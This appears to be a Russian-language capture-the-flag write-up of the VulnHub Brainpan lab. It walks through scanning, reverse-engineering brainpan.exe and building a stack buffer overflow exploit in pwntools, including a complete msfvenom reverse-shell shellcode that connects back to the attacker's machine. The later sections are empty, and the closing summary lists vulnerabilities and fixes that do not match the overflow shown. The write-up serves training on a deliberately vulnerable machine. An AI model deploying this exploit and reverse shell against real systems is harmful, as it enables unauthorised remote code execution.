




# VulnHub - 41-Brainpan

📅 Дата: 2025-05-22  
🧠 Сложность:  
💻 IP-адрес: 192.168.56.123  

---

## 🔍 Сканирование

```bash
export ip=192.168.56.123
export ports=9999,10000
sudo nmap -sT -Pn -sV -T4 -A -p $ports $ip -oN scans/nmap.txt
```

### Nmap
```bash
Nmap scan report for 192.168.56.123
Host is up (0.00088s latency).

PORT      STATE SERVICE VERSION
9999/tcp  open  abyss?
| fingerprint-strings: 
|   NULL: 
|     _| _| 
|     _|_|_| _| _|_| _|_|_| _|_|_| _|_|_| _|_|_| _|_|_| 
|     _|_| _| _| _| _| _| _| _| _| _| _| _|
|     _|_|_| _| _|_|_| _| _| _| _|_|_| _|_|_| _| _|
|     [________________________ WELCOME TO BRAINPAN _________________________]
|_    ENTER THE PASSWORD
10000/tcp open  http    SimpleHTTPServer 0.6 (Python 2.7.3)
|_http-server-header: SimpleHTTP/0.6 Python/2.7.3
1 service unrecognized despite returning data. If you know the service/version, please submit the following fingerprint at https://nmap.org/cgi-bin/submit.cgi?new-service :
SF-Port9999-TCP:V=7.94SVN%I=7%D=5/22%Time=682EADB8%P=x86_64-pc-linux-gnu%r
SF:(NULL,298,"_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\n_\|_\|_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|\x20\x20\x20\x20_\|_\|
SF:_\|\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x20\x20\x20_\|_\|_\|\x20\x20\x
SF:20\x20\x20\x20_\|_\|_\|\x20\x20_\|_\|_\|\x20\x20\n_\|\x20\x20\x20\x20_\
SF:|\x20\x20_\|_\|\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\
SF:|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\
SF:|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|\x20\x20\x20\x20
SF:_\|\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x2
SF:0\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|\x20\x20\x20\x20_\|\n_\|_\|_\|\x2
SF:0\x20\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20_\|_\|_\|\x20\x
SF:20_\|\x20\x20_\|\x20\x20\x20\x20_\|\x20\x20_\|_\|_\|\x20\x20\x20\x20\x2
SF:0\x20_\|_\|_\|\x20\x20_\|\x20\x20\x20\x20_\|\n\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20_\|\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n\x20\x20\x20\x20\x20\x20
SF:\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x
SF:20\x20\x20_\|\n\n\[________________________\x20WELCOME\x20TO\x20BRAINPA
SF:N\x20_________________________\]\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20ENTE
SF:R\x20THE\x20PASSWORD\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x2
SF:0\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\n
SF:\n\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\x20\
SF:x20\x20\x20\x20\x20\x20\x20\x20\x20>>\x20");
MAC Address: 08:00:27:08:2C:9B (Oracle VirtualBox virtual NIC)
Warning: OSScan results may be unreliable because we could not find at least 1 open and 1 closed port
Device type: general purpose
Running: Linux 2.6.X|3.X
OS CPE: cpe:/o:linux:linux_kernel:2.6 cpe:/o:linux:linux_kernel:3
OS details: Linux 2.6.32 - 3.10
Network Distance: 1 hop
```


---

## 🕵️ Enumeration
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub]
└─$ ffuf -fc 404 -t 100 -u http://$ip:10000/FUZZ -w /media/sf_Exchange/Dictionaries/Dir/directory-list-2.3-medium.txt
bin                     [Status: 301, Size: 0, Words: 1, Lines: 1, Duration: 18ms]
```


Информация о файле  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ file brainpan.exe 
brainpan.exe: PE32 executable (console) Intel 80386 (stripped to external PDB), for MS Windows, 5 sections
```

Загружаю в Ghidra


Вижу переменные отказа и разрешения доступа:
```bash
  local_404 = "                          ACCESS DENIED\n";
  local_408 = "                          ACCESS GRANTED\n";
```
В переменную **char local_3fc [1016];** считывается пользовательский ввод (1000 байт) -> затирание данных можно не рассматривать

Функция **get_reply(local_3fc)** осуществляет какую-то проверку и возвращает **0**, если она успешна.

Иду в функцию **get_reply()**:


Получение доступа с использованием `shitstorm` ничего не дало:  


Так что смотрю переполнение буфера: param_1 [1000 байт] записываются в переменную local_20c [520 байт]

Стек функции `get_reply(char * param_1)` имеет такой вид:

  
т.е. для изменения адреса возврата, в переменную `local_20c` нужно положить 520 байт,   
ещё 4 байта перезапишут `EBP`,  
и ещё 4 байта перезапишут `return adress`  
  
Итого: **520**(local_20c) + **4**(EBP) + **4**(EIP)

Запускаю brainpan.exe в отладчике immunity debugger на 32 битной системе Windows7  


Смотрю защиту `!mona modules`
  
 - **ASLR** (Address Space Layout Randomization): Указано "False", что означает, что защита ASLR отключена ==> адреса памяти остаются постоянными.
 - **NXCompat** (No Execute): "False", что указывает на отсутствие защиты от выполнения кода в областях данных (DEP отключена).

Таким образом, если удастся:  
 - найти постоянный адрес инструкции `call esp`, `jmp esp`, или немного более сложные rop chains для вызова кода из стека   
 - получить контроль над регистром EIP, чтобы положить туда адрес инструкции вызова кода из стека  
 - положить в стек свою полезную нагрузку

то можно будет заставить приложение выполнить произвольный код.

Ищу адрес `call esp`, `jmp esp` внутри **brainpan.exe**  
Для этого использую утилиту `ROPgadget`.  
Можно использовать команду, которая выведет только гаджеты, содержащие call, jmp и ссылки на esp:
```bash
ROPgadget --binary ./brainpan.exe --only "call|jmp|esp"
```

Но я предпочитаю выводить все гаджеты и искать вручную регулярными выражениями, меняя уровень вложенности
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ ROPgadget --binary ./brainpan.exe > brainpan.allgadgets.txt
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ grep -iE "call esp" brainpan.allgadgets.txt | awk -F';' 'NF <= 2' 
                                                                                                                   
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ grep -iE "jmp esp" brainpan.allgadgets.txt | awk -F';' 'NF <= 2'
0x311712f3 : jmp esp
0x311712f1 : mov ebp, esp ; jmp esp
```

Есть `0x311712f3 : jmp esp`, далее нужно проверить возможность получения контроля над адресом возврата и возможностью записать полезную нагрузку в стек.

Пробую подключиться с kali  
```bash
┌──(kali㉿0x2d-pentest)-[~]
└─$ sudo nmap -sn 192.168.56.106/24                                                                  
[sudo] password for kali: 
Starting Nmap 7.94SVN ( https://nmap.org ) at 2025-07-18 06:16 EDT
Nmap scan report for 192.168.56.100
Host is up (0.00031s latency).
MAC Address: 08:00:27:81:C6:A7 (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.124
Host is up (0.00072s latency).
MAC Address: 08:00:27:99:B1:5F (Oracle VirtualBox virtual NIC)
Nmap scan report for 192.168.56.106
Host is up.
Nmap done: 256 IP addresses (3 hosts up) scanned in 9.63 seconds
                                                                                                                  
┌──(kali㉿0x2d-pentest)-[~]
└─$ nc 192.168.56.124 9999             
_|                            _|                                        
_|_|_|    _|  _|_|    _|_|_|      _|_|_|    _|_|_|      _|_|_|  _|_|_|  
_|    _|  _|_|      _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|    _|  _|        _|    _|  _|  _|    _|  _|    _|  _|    _|  _|    _|
_|_|_|    _|          _|_|_|  _|  _|    _|  _|_|_|      _|_|_|  _|    _|
                                            _|                          
                                            _|

[________________________ WELCOME TO BRAINPAN _________________________]
                          ENTER THE PASSWORD                              

                          >> asdfasdf\
                          ACCESS DENIED
```

Отлично, хост `192.168.56.124` и порт `9999`.  
Чтобы проверить уязвимость переполнения буфера, буду использовать библиотеку `pwntools`.  
Код стартового шаблона я немного переделал под себя, так что он слегка отличается от дефолтного.  
Активирую виртуальное окружение и генерирую шаблон  
```bash
┌──(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ actv
                                                                                                                  
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ pwn template ./brainpan.exe --quiet --host 192.168.56.124 --port 9999 > x.py
[*] Automatically detecting challenge binaries...
```

Далее будет удобнее работать в PyCharm  
```python
from pwn import *

context.update(arch='i386')
exe = './brainpan.exe'

host = args.HOST or '192.168.56.124'
port = int(args.PORT or 9999)

def start_local(argv=[], *a, **kw):
    '''Execute the target binary locally'''
    if args.GDB:
        return gdb.debug([exe] + argv, gdbscript=gdbscript, *a, **kw)
    elif args.EDB:
        return process(['edb', '--run', exe] + argv, *a, **kw)
    else:
        return process([exe] + argv, *a, **kw)

def start_remote(argv=[], *a, **kw):
    '''Connect to the process on the remote host'''
    io = connect(host, port)
    if args.GDB:
        gdb.attach(io, gdbscript=gdbscript)
    return io

def start(argv=[], *a, **kw):
    '''Start the exploit against the target.'''
    if args.LOCAL:
        return start_local(argv, *a, **kw)
    else:
        return start_remote(argv, *a, **kw)

#====================PAYLOAD DEFINITION=====================
junk    = b'A'*520
EBP     = b'B'*4
EIP     = b'C'*4
stack   = b'D'*12

payload = b''.join([
    junk,
    EBP,
    EIP,
    stack,
])
#========================CONNECTION=========================
io = start()
print(io.recv().decode('utf-8'))
io.sendline(payload)
io.interactive()

#========================INFORMATION========================
# RDI, RSI, RDX, RCX, R8, R9, STACK
#       1    2    3    4   5    6
```

Если всё правильно рассчитал, то должен получить  
  - **СССС** в адресе возврата 
  - 3 строки букв **D** в стеке  

Перезапускаю процесс в отладчике и ставлю breakpoint на вызов функции `get_reply()`


Получаю контроль над адресом возврата  


### Далее ищу **badchars**

Небольшая настройка immunity debugger
`!mona config -set workingfolder c:\mona\%p`

Массив байтов можно сгенерировать в **mona** и исключить из него нулевой **"\x00"**
`!mona bytearray -b "\x00"`

А можно написать код **python**
```python
exclude_list = ["\\x00"]

for x in range(1, 256):
    hex_str = "\\x" + "{:02x}".format(x)
    if hex_str not in exclude_list:
        print(hex_str, end='')
print()
```

Я буду использовать такой код и генерировать массив байтов прямо в шаблоне:
```python
from pwn import *

context.update(arch='i386')
exe = './brainpan.exe'

host = args.HOST or '192.168.56.124'
port = int(args.PORT or 9999)

#====================PAYLOAD DEFINITION=====================
junk    = b'A'*520
EBP     = b'B'*4
EIP     = b'C'*4

exclude_list = ["\\x00"]
stack   = ''.join(f"\\x{x:02x}" for x in range(1, 256) if f"\\x{x:02x}" not in exclude_list)
log.info(b'-------------------------------------------')
log.success(f'badchars: {stack}')
log.info(b'-------------------------------------------')

payload = b''.join([
    junk,
    EBP,
    EIP,
    stack.encode('latin-1'),
])
#========================CONNECTION=========================
io = start()

print(io.recv().decode('utf-8'))
io.sendline(payload)

io.interactive()
```

Мой код попадает в стек по адресу `ESP 0022F930`  


Сравниваю в **mona** `!mona compare -f "c:\mona\brainpan\bytearray.bin" -a 0022F930`  


Получается, что кроме '\x00' badchars отсутствуют, так что генерирую reverse shell, который помещу в стек.
```bash
┌──(.venv)─(kali㉿0x2d-pentest)-[~/Labs/VulnHub/41-Brainpan/files]
└─$ msfvenom -p windows/shell/reverse_tcp LHOST=192.168.56.106 LPORT=4444 -f py -e x86/shikata_ga_nai -b "\x00" -v stack
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x86 from the payload
Found 1 compatible encoders
Attempting to encode payload with 1 iterations of x86/shikata_ga_nai
x86/shikata_ga_nai succeeded with size 381 (iteration=0)
x86/shikata_ga_nai chosen with final size 381
Payload size: 381 bytes
Final size of py file: 1953 bytes
stack =  b""
stack += b"\xba\xa0\x7e\xfb\x34\xd9\xe5\xd9\x74\x24\xf4\x5f"
stack += b"\x31\xc9\xb1\x59\x83\xef\xfc\x31\x57\x10\x03\x57"
stack += b"\x10\x42\x8b\x07\xdc\x0d\x74\xf8\x1d\x71\x44\x2a"
stack += b"\x79\xfa\xf4\xfa\x0b\x19\x73\xa8\x07\x6a\xd6\x59"
stack += b"\x17\xdb\x9d\x47\x16\xdc\xa9\xfa\x70\x13\x6e\x56"
stack += b"\xbc\x32\x12\xa5\x91\x94\x2b\x66\xe4\xd5\x6c\x30"
stack += b"\x82\x3a\x20\x48\x3e\xd4\x92\xc5\xfd\xe8\x1d\x0a"
stack += b"\x8a\x50\x66\x2f\x4d\x24\xda\x2e\x9e\x4f\xba\x10"
stack += b"\x4e\xc4\x73\x49\x6f\x09\x06\xa0\x1b\x91\x40\xb8"
stack += b"\xd0\x62\x63\x41\x19\xa2\xb5\x7d\xb6\x8b\x79\x70"
stack += b"\xc6\xcc\xbe\x6b\xbd\x26\xbd\x16\xc6\xfd\xbf\xcc"
stack += b"\x43\xe1\x18\x86\xf4\xc5\x99\x4b\x62\x8e\x96\x20"
stack += b"\xe0\xc8\xba\xb7\x25\x63\xc6\x3c\xc8\xa3\x4e\x06"
stack += b"\xef\x67\x0a\xdc\x8e\x3e\xf6\xb3\xaf\x20\x5e\x6b"
stack += b"\x0a\x2b\x4d\x7a\x2a\xd4\x8d\x83\x76\x42\x41\x4e"
stack += b"\x89\x92\xcd\xd9\xfa\xa0\x52\x72\x95\x88\x1b\x5c"
stack += b"\x62\x99\x0c\x5f\xbc\x21\x5c\xa1\x3d\x51\x74\x66"
stack += b"\x69\x01\xee\x4f\x12\xca\xee\x70\xc7\x66\xe5\xe6"
stack += b"\x28\xde\xc1\x9c\xc0\x1c\x32\x70\x4d\xa9\xd4\x22"
stack += b"\x3d\xf9\x48\x83\xed\xb9\x38\x6b\xe4\x36\x66\x8b"
stack += b"\x07\x9d\x0f\x26\xe8\x4b\x67\xdf\x91\xd6\xf3\x7e"
stack += b"\x5d\xcd\x79\x40\xd5\xe7\x7e\x0f\x1e\x82\x6c\x78"
stack += b"\x79\x6c\x6d\x79\xec\x6c\x07\x7d\xa6\x3b\xbf\x7f"
stack += b"\x9f\x0b\x60\x7f\xca\x08\x67\x7f\x8b\x38\x13\xb6"
stack += b"\x19\x04\x4b\xb7\xcd\x84\x8b\xe1\x87\x84\xe3\x55"
stack += b"\xfc\xd7\x16\x9a\x29\x44\x8b\x0f\xd2\x3c\x7f\x87"
stack += b"\xba\xc2\xa6\xef\x64\x3d\x8d\x73\x62\xc1\x53\x5c"
stack += b"\xcb\xa9\xab\xdc\xeb\x29\xc6\xdc\xbb\x41\x1d\xf2"
stack += b"\x34\xa1\xde\xd9\x1c\xa9\x55\x8c\xef\x48\x69\x85"
stack += b"\xae\xd4\x6a\x2a\x6b\xe7\x11\x43\x8c\x08\xe6\x4d"
stack += b"\xe9\x09\xe6\x71\x0f\x36\x30\x48\x65\x79\x80\xef"
stack += b"\x76\xcc\xa5\x46\x1d\x2e\xf9\x99\x34"
```

Запускаю multi/handler
```bash
msf6 exploit(multi/handler) > options

Payload options (windows/shell/reverse_tcp):

   Name      Current Setting  Required  Description
   ----      ---------------  --------  -----------
   EXITFUNC  process          yes       Exit technique (Accepted: '', seh, thread, process, none)
   LHOST     192.168.56.106   yes       The listen address (an interface may be specified)
   LPORT     4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   Wildcard Target
```

Устанавливаю **EIP** на адрес инструкции `jmp esp` (**0x311712f3**).  
Для этого воспользуюсь функцией `p32()` из `pwnlib`  
```python
EIP     = p32(0x311712f3)
```

Итоговый код:
```python
from pwn import *

context.update(arch='i386')
exe = './brainpan.exe'

host = args.HOST or '192.168.56.124'
port = int(args.PORT or 9999)

#====================PAYLOAD DEFINITION=====================
junk    = b'A'*520
EBP     = b'B'*4
EIP     = p32(0x311712f3)
nop     = b'\x90'*8

stack =  b""
stack += b"\xba\xa0\x7e\xfb\x34\xd9\xe5\xd9\x74\x24\xf4\x5f"
stack += b"\x31\xc9\xb1\x59\x83\xef\xfc\x31\x57\x10\x03\x57"
stack += b"\x10\x42\x8b\x07\xdc\x0d\x74\xf8\x1d\x71\x44\x2a"
stack += b"\x79\xfa\xf4\xfa\x0b\x19\x73\xa8\x07\x6a\xd6\x59"
stack += b"\x17\xdb\x9d\x47\x16\xdc\xa9\xfa\x70\x13\x6e\x56"
stack += b"\xbc\x32\x12\xa5\x91\x94\x2b\x66\xe4\xd5\x6c\x30"
stack += b"\x82\x3a\x20\x48\x3e\xd4\x92\xc5\xfd\xe8\x1d\x0a"
stack += b"\x8a\x50\x66\x2f\x4d\x24\xda\x2e\x9e\x4f\xba\x10"
stack += b"\x4e\xc4\x73\x49\x6f\x09\x06\xa0\x1b\x91\x40\xb8"
stack += b"\xd0\x62\x63\x41\x19\xa2\xb5\x7d\xb6\x8b\x79\x70"
stack += b"\xc6\xcc\xbe\x6b\xbd\x26\xbd\x16\xc6\xfd\xbf\xcc"
stack += b"\x43\xe1\x18\x86\xf4\xc5\x99\x4b\x62\x8e\x96\x20"
stack += b"\xe0\xc8\xba\xb7\x25\x63\xc6\x3c\xc8\xa3\x4e\x06"
stack += b"\xef\x67\x0a\xdc\x8e\x3e\xf6\xb3\xaf\x20\x5e\x6b"
stack += b"\x0a\x2b\x4d\x7a\x2a\xd4\x8d\x83\x76\x42\x41\x4e"
stack += b"\x89\x92\xcd\xd9\xfa\xa0\x52\x72\x95\x88\x1b\x5c"
stack += b"\x62\x99\x0c\x5f\xbc\x21\x5c\xa1\x3d\x51\x74\x66"
stack += b"\x69\x01\xee\x4f\x12\xca\xee\x70\xc7\x66\xe5\xe6"
stack += b"\x28\xde\xc1\x9c\xc0\x1c\x32\x70\x4d\xa9\xd4\x22"
stack += b"\x3d\xf9\x48\x83\xed\xb9\x38\x6b\xe4\x36\x66\x8b"
stack += b"\x07\x9d\x0f\x26\xe8\x4b\x67\xdf\x91\xd6\xf3\x7e"
stack += b"\x5d\xcd\x79\x40\xd5\xe7\x7e\x0f\x1e\x82\x6c\x78"
stack += b"\x79\x6c\x6d\x79\xec\x6c\x07\x7d\xa6\x3b\xbf\x7f"
stack += b"\x9f\x0b\x60\x7f\xca\x08\x67\x7f\x8b\x38\x13\xb6"
stack += b"\x19\x04\x4b\xb7\xcd\x84\x8b\xe1\x87\x84\xe3\x55"
stack += b"\xfc\xd7\x16\x9a\x29\x44\x8b\x0f\xd2\x3c\x7f\x87"
stack += b"\xba\xc2\xa6\xef\x64\x3d\x8d\x73\x62\xc1\x53\x5c"
stack += b"\xcb\xa9\xab\xdc\xeb\x29\xc6\xdc\xbb\x41\x1d\xf2"
stack += b"\x34\xa1\xde\xd9\x1c\xa9\x55\x8c\xef\x48\x69\x85"
stack += b"\xae\xd4\x6a\x2a\x6b\xe7\x11\x43\x8c\x08\xe6\x4d"
stack += b"\xe9\x09\xe6\x71\x0f\x36\x30\x48\x65\x79\x80\xef"
stack += b"\x76\xcc\xa5\x46\x1d\x2e\xf9\x99\x34"

payload = b''.join([
    junk,
    EBP,
    EIP,
    nop,
    stack,
])
#========================CONNECTION=========================
io = start()

print(io.recv().decode('utf-8'))
io.sendline(payload)

io.interactive()
```

И запускаю его, не забыв поменять HOST для выполнения атаки не на запущенное приложение brainpan.exe в immunity debugger на моей виртуальной машине, а на виртуальную машину с лабораторной
```bash
python3 x.py HOST=192.168.56.123
```


## 📂 Получение доступа


## ⚙️ Привилегии


## 🏁 Флаги

- User flag: 
- Root flag: 

---

## 📋 Резюме

🧰 **Инструменты:**
  - nmap, ffuf, и др.

🚨 **Уязвимости, которые удалось обнаружить:**  
  - Directory Traversal  
  - RCE через уязвимый скрипт  

🛡 **Советы по защите:**
  - Использовать сложные пароли и ограничить число попыток входа
  - Обновлять ПО до актуальных версий
  - Удалять/ограничивать использование SUID-бинарников
  - Настроить логирование и мониторинг системных событий
  - Применять принцип наименьших привилегий


